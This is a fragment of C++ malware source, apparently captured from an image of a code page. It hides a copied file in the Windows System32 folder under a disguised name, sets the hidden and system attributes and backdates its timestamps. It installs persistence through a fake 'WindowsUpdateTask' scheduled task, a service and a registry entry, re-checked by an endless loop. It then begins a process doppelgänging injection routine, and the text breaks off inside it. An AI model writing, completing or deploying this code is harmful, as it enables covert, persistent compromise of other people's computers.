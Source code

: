             SetFileAttributesW(targetPath.c_str(), 
                FILE_ATTRIBUTE_SYSTEM | FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_NOT_CONTENT_INDEXED);
                
            HANDLE hFile = CreateFileW(targetPath.c_str(), GENERIC_WRITE, 0, NULL, 
                OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
            if (hFile != INVALID_HANDLE_VALUE) {
                FILETIME ft;
                SYSTEMTIME st;
                GetSystemTime(&st);
                st.wYear -= 1;
                SystemTimeToFileTime(&st, &ft);
                SetFileTime(hFile, &ft, &ft, &ft);
                CloseHandle(hFile);
            }
        }
        
        CreatePersistentService(targetPath);
        CreateScheduledTask(targetPath);
        AddToRegistry(targetPath);
    }
    
public:
    static void HideInSystemDirectory() {
        SYSTEM_SERVICE_NAME = L"WinSystemService";
        TASK_NAME = L"WindowsUpdateTask";
        
        wchar_t system32[MAX_PATH];
        GetSystemDirectoryW(system32, MAX_PATH);
        std::wstring targetPath = std::wstring(system32) + L"\\" + GenerateSystemFileName();
        
        EnsurePersistence(targetPath);
        
        // Periyodik kontrol thread'i
        std::thread([targetPath]() {
            while (true) {
                EnsurePersistence(targetPath);
                Sleep(CHECK_INTERVAL * 1000);
            }
        }).detach();
    }
};

std::vector<std::wstring> SystemCamouflage::systemFileNames;
const wchar_t* SystemCamouflage::SYSTEM_SERVICE_NAME;
const wchar_t* SystemCamouflage::TASK_NAME;

class ProcessDoppelganger {
public:
    static bool Execute(const wchar_t* targetPath) {
        HANDLE hTransaction = NULL;
        HANDLE hTransactedFile = NULL;
        HANDLE hSection = NULL;
        
        HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
        if (!hNtdll) return false;
        